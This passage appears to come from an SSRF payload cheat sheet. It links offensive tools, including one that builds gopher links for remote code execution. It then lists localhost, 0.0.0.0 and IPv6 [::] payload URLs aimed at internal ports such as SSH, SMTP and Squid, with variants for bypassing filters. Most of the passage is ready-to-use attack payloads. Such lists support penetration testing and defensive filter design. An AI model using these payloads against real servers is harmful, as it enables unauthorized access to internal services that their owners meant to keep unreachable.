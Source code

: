 ## Tools

- [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - Automatic SSRF fuzzer and exploitation tool
- [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) - Generates gopher link for exploiting SSRF and gaining RCE in various servers
- [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - Python based scanner to find potential SSRF parameters
- [teknogeek/SSRF Sheriff](https://github.com/teknogeek/ssrf-sheriff) - Simple SSRF-testing sheriff written in Go
* [assetnote/surf](https://github.com/assetnote/surf) - Returns a list of viable SSRF candidates
* [dwisiswant0/ipfuscator](https://github.com/dwisiswant0/ipfuscator) - A blazing-fast, thread-safe, straightforward and zero memory allocations tool to swiftly generate alternative IP(v4) address representations in Go.

## Payloads with localhost

* Using `localhost`
  ```powershell
  http://localhost:80
  http://localhost:443
  http://localhost:22
  ```
* Using `127.0.0.1`
  ```powershell
  http://127.0.0.1:80
  http://127.0.0.1:443
  http://127.0.0.1:22
  ```
* Using `0.0.0.0`
  ```powershell
  http://0.0.0.0:80
  http://0.0.0.0:443
  http://0.0.0.0:22
  ```

## Bypassing filters

### Bypass using HTTPS

```powershell
https://127.0.0.1/
https://localhost/
```

### Bypass localhost with [::]

```powershell
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```
